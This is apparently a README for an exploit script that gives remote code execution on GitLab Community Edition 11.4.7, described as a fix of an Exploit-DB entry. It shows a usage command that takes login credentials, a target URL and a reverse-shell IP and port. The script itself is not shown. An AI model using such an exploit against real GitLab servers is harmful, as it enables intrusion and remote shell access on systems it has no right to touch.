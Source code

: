 # Gitlab Community Edition 11.4.7 RCE

There is a minor mistake in https://www.exploit-db.com/exploits/49334

Now, You can use this script to execute rce.

## Usage 

python3 rce.py -u <username> -p <password> -g http://<gitlab_url> -l <Reverse_Shell_IP> -P <Reverse_Shell_Port>

Note: check gitlab port in script if your testing environment is not hosted on default port(5080).
